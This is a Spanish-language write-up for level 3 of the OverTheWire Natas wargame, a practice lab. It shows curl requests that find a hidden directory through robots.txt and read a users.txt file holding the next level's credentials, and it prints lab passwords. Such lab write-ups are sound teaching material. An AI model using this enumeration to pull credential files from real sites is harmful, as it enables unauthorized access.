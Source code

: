 # Natas 3

#### URL: http://natas3.natas.labs.overthewire.org/

#### Credenciales: natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH

``` bash
> curl -u "natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH" http://natas3.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas3", "pass": "3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH" };</script></head>
<body>
<h1>natas3</h1>
<div id="content">
There is nothing on this page
<!-- No more information leaks!! Not even Google will find it this time... -->
</div>
</body></html>
```

Ese comentario nos da una pista de que pueden haber agregado a robots.txt alguna ruta que no quieren que los bots de Google indexen.

``` bash
> curl -u "natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH" http://natas3.natas.labs.overthewire.org/robots.txt
User-agent: *
Disallow: /s3cr3t/
```

En efecto, el directorio contiene el archivo "users.txt" que una vez mas contiene las credenciales.

``` bash
> curl -u "natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH" http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ
```

`natas4:QryZXc2e0zahULdHrtHxzyYkj59kUxLQ`
